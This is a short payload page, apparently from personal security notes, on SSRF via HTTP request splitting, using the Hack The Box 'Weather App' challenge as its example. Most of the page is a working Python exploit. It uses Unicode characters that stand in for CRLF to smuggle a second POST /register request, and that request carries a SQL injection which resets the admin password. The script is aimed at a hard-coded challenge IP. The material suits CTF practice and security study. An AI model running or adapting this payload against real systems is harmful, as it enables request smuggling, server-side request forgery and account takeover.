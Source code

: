 ```yaml
---
title: SSRF via Request Splitting
permalink: nat.html
folder: Payloads
---
```


Need to read:
- https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/
- https://blog.d3s34.me/weather-app

Example: HTB - Weather App

Payload

```python
import requests

CRLF = "\u010D\u010A"
SPACE = "\u0120"

SQLi = f"username=admin&password=1') on conflict(username) do update set password='123';-- -"\
    .replace(" ", SPACE)\
    .replace("'", "%27")

payload =   f"{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"{CRLF}"\
            \
            f"POST{SPACE}/register{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"Content-Length:{SPACE}{len(SQLi)}{CRLF}"\
            f"Content-Type:{SPACE}application/x-www-form-urlencoded{CRLF}"\
            f"{CRLF}"\
            f"{SQLi}{CRLF}"\
            f"{CRLF}" \
            \
            f"GET{SPACE}/"

url = 'http://68.183.36.105:31623/api/weather'
data = {"endpoint":"127.0.0.1",
        "city":"Hanoi" + payload,
        "country":"VN"}

x = requests.post(url, data = data)

print(x.text)
```
